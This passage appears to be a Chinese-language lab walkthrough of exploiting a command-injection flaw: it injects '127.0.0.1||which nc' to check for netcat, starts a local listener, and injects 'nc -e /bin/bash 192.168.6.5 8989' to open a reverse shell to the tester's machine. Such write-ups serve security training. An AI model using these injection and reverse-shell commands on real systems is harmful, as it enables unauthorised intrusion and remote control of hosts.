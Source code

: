 执行

```
127.0.0.1||which nc
```

确定目标主机是否有nc

 

![img](./assets/wps911.jpg) 

 

得到回显

 

## 利用nc反弹shell

本地：

```
nc -lvvp 8989
```

![img](./assets/wps912.jpg) 

 

 

目标主机：

```
127.0.0.1||nc -e /bin/bash 192.168.6.5 8989
```
